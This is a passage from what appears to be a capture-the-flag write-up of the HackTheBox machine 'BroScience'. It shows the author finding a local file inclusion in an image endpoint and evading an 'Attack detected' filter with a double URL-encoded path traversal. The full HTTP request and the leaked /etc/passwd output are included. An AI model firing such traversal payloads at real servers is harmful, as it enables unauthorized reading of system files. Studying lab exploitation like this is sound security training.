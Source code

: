 ![Register](/assets/images/BroScience/Register.png "Register")

I kept looking around. Eventually, I saw the image's URL: `https://broscience.htb/includes/img.php?path=bench.png`. This looked like it could be vulnerable to LFI.

I tried loading `https://broscience.htb/includes/img.php?path=/etc/passwd`. The paged showed `Error: Attack detected`. 

I tried encoding the slashes, it gave me the same error. I kept playing with it, I needed to double URL encode the slashes to get the file.

```http
GET /includes/img.php?path=..%252f..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=6drat5f8omo5h6l5hmjinrcdai
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Sun, 29 Jan 2023 16:33:15 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 2235
Connection: close
Content-Type: image/png

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```